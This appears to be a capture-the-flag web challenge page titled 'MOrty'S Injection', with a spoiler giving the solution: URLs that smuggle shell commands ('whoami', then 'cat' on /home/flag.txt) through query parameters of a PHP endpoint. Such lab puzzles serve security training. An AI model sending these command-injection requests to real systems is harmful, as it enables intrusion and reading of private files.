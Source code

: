 # MOrty'S Injection

**Category**: web

**Author**: kotsios

## Description

Morty is sick. Can you help him by giving him his medical injection?

<details>
<summary>Reveal Spoiler</summary>
Note: All the characters are stripped
Note2: The name parameter has to be empty for the detection phase

http://host:port/ccsc.php?name=&surname=whoami

# READ THE FLAG
http://host:port/ccsc.php?name=/home/flag.txt&surname=cat

</details>
